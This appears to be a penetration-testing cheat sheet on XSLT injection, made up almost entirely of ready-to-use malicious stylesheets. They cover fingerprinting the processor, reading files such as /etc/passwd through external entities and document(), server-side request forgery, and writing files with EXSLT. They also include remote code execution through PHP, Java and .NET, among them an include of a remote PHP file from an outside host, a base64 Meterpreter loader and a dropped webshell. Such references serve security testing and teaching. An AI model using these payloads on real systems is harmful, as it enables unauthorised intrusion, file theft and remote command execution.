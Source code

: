 # XSLT Injection

> Processing an un-validated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code

## Summary

- [XSLT Injection](#xslt-injection)
  - [Summary](#summary)
  - [Tools](#tools)
  - [Exploit](#exploit)
    - [Determine the vendor and version](#determine-the-vendor-and-version)
    - [External Entity](#external-entity)
    - [Read files and SSRF using document](#read-files-and-ssrf-using-document)
    - [Write files with EXSLT extension](#write-files-with-exslt-extension)
    - [Remote Code Execution with PHP wrapper](#remote-code-execution-with-php-wrapper)
    - [Remote Code Execution with Java](#remote-code-execution-with-java)
    - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)
  - [References](#references)

## Tools

## Exploit

### Determine the vendor and version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Read files and SSRF using document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```


### Write files with EXSLT extension

EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```


### Remote Code Execution with PHP wrapper

Execute the function `readfile`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

Execute the function `scandir`.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `assert`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
  <xsl:variable name="payload">
    include("http://10.10.10.10/test.php")
  </xsl:variable>
  <xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```

Execute a PHP meterpreter using PHP wrapper.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:variable name="eval">
      eval(base64_decode('Base64-encoded Meterpreter code'))
    </xsl:variable>
    <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `file_put_contents`

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php','&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Java

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### Remote Code Execution with Native .NET

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
</xsl:stylesheet>
```


## References

* [From XSLT code execution to Meterpreter shells - @agarri - 02 July 2012](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
* [XSLT Injection - Fortify](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
* [XSLT Injection Basics - Saxon](https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)
* [Getting XXE in Web Browsers using ChatGPT - Igor Sak-Sakovskiy - May 22, 2024](https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/)
* [XSLT injection lead to file creation - PT SWARM - 30 may 2024](https://twitter.com/ptswarm/status/1796162911108255974/photo/1)